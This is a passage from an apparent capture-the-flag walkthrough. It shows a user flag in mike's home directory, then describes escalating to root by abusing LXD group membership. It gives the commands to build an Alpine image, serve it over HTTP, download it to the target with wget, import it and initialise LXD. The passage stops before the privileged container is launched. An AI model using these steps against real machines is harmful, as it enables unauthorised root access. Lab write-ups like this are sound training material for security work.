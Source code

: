 The user flag can be found in the home directory of mike:

<img style="float: left;" src="screenshots/screenshot11.png">

---

### [ Submit root flag ]

I found an extremely useful article on how to exploit **lxd**:

https://steflan-security.com/linux-privilege-escalation-exploiting-the-lxc-lxd-groups/

*(Refer to the article for more detailed steps on how to carry out the exploit.)*

<br>

Essentially, what we are trying to do is to run a privileged **alpine** container using **LXD** and **LXC** on the target machine. This grants us access to a root shell. From there, we mount the root directory on the actual machine to a directory on the container so that we can access files outside of the container while we're in the container as root.

**Steps:**

First, we need to build an image of alpine specifically for LXC/LXD containers on our local machine. We can do so using this Github repo:

```
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder/
sudo ./build-alpine
```

This will generate a **.tar.gz** archive which is our alpine image.

Next, we transfer this alpine image over to the target machine. We can do so with a simply Python HTTP web server:

```
#Setup HTTP server to host the image
sudo python -m SimpleHTTPServer 80
#Download the image remotely using Wget
wget http://X.X.X.X/alpine-vX.XX-1686-XXXXXXXX_XXXX.tar.gz
```

Once the transfer is done, we import the transferred image using `lxc` on the target machine:

```
lxc image import ./alpine.tar.gz --alias myimage 
```

Next, before actually using the image, we need to initialize LXD first and configure it's storage pool. For this configuration, just follow through the prompts and use the default settings:

```
lxd init
```

Once configuration is done, we run the alpine image and ensure that **security.privileged=true** flag is set. This will grant us unconditional root access:
